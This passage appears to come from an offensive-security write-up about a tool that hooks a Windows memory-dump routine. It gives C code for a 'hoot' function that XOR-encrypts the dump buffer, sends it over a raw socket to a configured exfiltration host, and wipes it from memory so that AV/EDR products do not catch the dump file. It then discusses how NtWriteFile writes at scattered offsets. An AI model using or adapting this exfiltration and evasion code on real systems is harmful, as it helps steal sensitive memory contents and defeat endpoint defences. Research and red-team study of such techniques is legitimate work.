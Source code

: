 
The `hoot` function may implement a variety of modifications or operations over the passed buffer. In this PoC we're just XORing the contents of the buffer with a single byte, and sending it via socket connection to a receiving server. It also provides a simple in-memory buffer nuke to avoid writing any contents of the actual buffer to disk.

This proved to be more than enough to prevent any AV/EDR solution from removing the dump file from the computer. 


```c
unsigned char* hoot(void* buffer, INT64 size, long pos) {
    unsigned char* new_buff = (unsigned char*) buffer;

    if (USE_ENCRYPTION) {
        new_buff = encrypt(buffer, size, XOR_KEY);
    }
  
    if (EXFIL) {
        s = getRawSocket(EXFIL_HOST, EXFIL_PORT);
        if(s) {
            sendBytesRaw(s, (const char*)new_buff, size, pos);
        }
        else {
            printf("[!] ERR:: SOCKET NOT READY\n");
         }
    }

    if (!WRITE_TO_FILE) {
        memset(new_buff, 0x00, size);
    }
   
    return new_buff;
}
```


# Pr*owl*blems


Once the exfiltration/encryption tasks were coded and we started testing, we realized that the `WriteAll` function was not creating the dump in a sequential manner. It was actually making `NtWriteFile` jump all over the file writing bytes here and there by setting an offset to write to.

```c
__kernel_entry NTSYSCALLAPI NTSTATUS NtWriteFile(
  HANDLE           FileHandle,
  HANDLE           Event,
  PIO_APC_ROUTINE  ApcRoutine,
  PVOID            ApcContext,
  PIO_STATUS_BLOCK IoStatusBlock,
  PVOID            Buffer,
  ULONG            Length,
  PLARGE_INTEGER   ByteOffset,      // Right here O^O
  PULONG           Key
);
```
